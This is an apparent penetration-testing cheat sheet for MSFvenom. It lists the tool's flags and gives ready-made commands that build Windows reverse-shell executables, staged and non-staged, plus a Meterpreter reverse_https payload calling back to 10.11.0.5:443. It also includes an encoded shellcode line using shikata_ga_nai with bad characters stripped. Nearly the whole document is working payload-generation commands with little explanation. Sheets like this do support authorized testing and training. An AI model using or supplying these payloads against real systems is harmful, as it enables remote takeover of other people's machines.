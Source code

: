 # MSFvenom

### Commands

```text
-p    Selects the payload
-l    List modules (payloads, encoders, nops, all)
-n    Prepend a nop sled to the payload
-f    Output format
-e    Encoder
-s    Maximum space for the payload
-a    Architecture
-b    Bad characters
--platform    Platform
```

#### Windows staged payloads

```text
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### Windows non-staged payloads

```text
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### Meterpreter payloads

```text
Msfvenom -p windows/meterpreter/reverse_https LHOST=10.11.0.5 LPORT=443 -f exe -o met_https_reverse.exe
```

Using ExitThread instead of ExitProcess can help prevent crashing the program

```text
Msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b “\x00\x0a\x0d”
```



